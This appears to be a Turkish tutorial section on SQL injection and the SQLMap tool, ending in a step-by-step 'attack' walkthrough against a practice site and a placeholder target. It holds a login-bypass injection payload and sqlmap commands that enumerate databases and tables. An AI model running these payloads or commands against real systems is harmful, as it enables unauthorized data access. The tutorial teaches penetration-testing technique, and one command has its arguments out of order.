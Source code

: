 ```SELECT * FROM kullanicilar WHERE kullaniciAdi ='' or '1' = '1 + " ';​```
​
**SQLMap'in İşlevleri​**

SQLMap, kullanıcıların web uygulamalarındaki güvenlik açıklarını keşfetmelerini ve bu açıkların kötüye kullanılabilirliğini test etmelerini sağlar. Araç, çeşitli veritabanı yönetim sistemlerini (DBMS) destekler, örneğin MySQL, PostgreSQL, Oracle, Microsoft SQL Server, ve daha birçok popüler DBMS. SQLMap, belirli bir URL veya POST isteği gibi hedefleri tarayarak SQL injection zafiyetlerini tespit eder ve bu zafiyetler üzerinden veritabanındaki tabloları, sütunları ve kayıtları çıkartabilir.​

**SQLMap'in Özellikleri​**

SQLMap, kullanıcılara geniş bir özellik seti sunar. Bunlar arasında veritabanı bilgilerini elde etme, veritabanı kullanıcılarını ve parolalarını keşfetme, veritabanı tablolarını ve sütunlarını listeleme, veritabanı kayıtlarını çıkartma ve hatta işletim sistemi komutları çalıştırma yetenekleri bulunur. Ayrıca, SQLMap, proxy desteği, çeşitli yükleme teknikleri, farklı kimlik doğrulama yöntemleri ve zamanlama seçenekleri gibi ileri düzey konfigürasyon imkanları da sağlar.​

**Güvenlik ve Kullanım Alanları​**

SQLMap, genellikle siber güvenlik uzmanları, penetrasyon testi uzmanları ve etik hackerlar tarafından kullanılır. Aracın asıl amacı, web uygulamalarındaki SQL injection zafiyetlerini tespit ederek bu açıkları kapatmak ve sistemlerin daha güvenli hale gelmesini sağlamaktır.

## SQLMap ile Saldırı

### **3.3.1 Hedef URL Belirleme​**

Öncelikle, SQL injection zafiyetine sahip olduğunu düşündüğümüz hedef URL'yi belirliyoruz. Örneğin, aşağıdaki URL'yi hedef alalım: ​

(http://testphp.vulnweb.com/login.php?id=1​)

​

### **3.3.2 SQLMap Kullanarak Tarama​**

SQLMap'i kullanarak hedef URL'yi tarıyoruz. Bu işlem, URL'deki SQL injection güvenlik açıklarını tespit etmek için gerçekleştirilir. Komutu çalıştırıyoruz:​

```sqlmap http://testphp.vulnweb.com/login.php?id=1 -u  --batch​```

​

```--batch``` seçeneği, SQLMap'in kullanıcıdan onay istemeden otomatik olarak devam etmesini sağlar.​

### **3.3.3 Veritabanı Bilgilerini Elde Etme​**

Tespit edilen SQL injection açığını kullanarak veritabanı bilgilerini elde ediyoruz:​

```sqlmap -u "http://hedefsite.com/urunler.php?id=1" --dbs​```

Bu komut, hedef veritabanında mevcut olan tüm veritabanı isimlerini listeler.​

​

### 3.3.4 Hedef Veritabanını Seçme​

Elde edilen veritabanı isimlerinden birini seçiyoruz ve bu veritabanındaki tabloları listeliyoruz. Örneğin, hedef_db adında bir veritabanı seçelim:​

```sqlmap -u "http://hedefsite.com/urunler.php?id=1" -D hedef_db --tables​```

Bu komut, hedef_db veritabanındaki tüm tabloları listeler.​

```